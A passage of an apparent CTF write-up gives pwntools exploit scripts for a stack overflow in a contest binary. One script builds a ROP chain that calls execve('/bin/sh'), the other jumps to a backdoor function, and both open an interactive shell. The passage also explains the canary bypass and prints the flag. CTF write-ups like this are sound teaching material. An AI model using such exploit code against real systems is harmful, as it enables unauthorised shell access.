 ```python
    r = process("./pwn")
    #gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    sys._exit(1)
padding = b'A' * 79
r.recvuntil(b"Show me your name: ")
r.sendline(padding + p64(pop_rdi_ret) + p64(bin_sh) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_rbx_ret) + p64(0) + p64(0) +  p64(execve))
r.recvuntil(b'\x0a')
r.interactive()
```

After the contest, I found that there is actually a backdoor function `shellcode`... So we can just use it to get the shell.

```python
# Offset is 79
# Statically linked binary
'''
$ objdump -D pwn -M intel | grep shellcode
00000000004017a5 <shellcode>:
'''
bd = 0x00000000004017a5
from pwn import *
import sys
context.log_level = "debug"


if len(sys.argv) == 1:
    r = process("./pwn")
    #gdb.attach(r)
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    sys._exit(1)
padding = b'A' * 79
r.recvuntil(b"Show me your name: ")
r.sendline(padding + p64(bd))
r.recvuntil(b'\x0a')
r.interactive()
```

Also when I'm writing this writeup, I found that this binary has canary enabled. Why we can bypass it? Because the canary is in those libc functions, not in the main function.

`AIS3{5imP1e_Pwn_4_beGinn3rs!}`

## ManagementSystem

Looks like a heap exploitation challenge. But here is my first CTF so keep it simple.
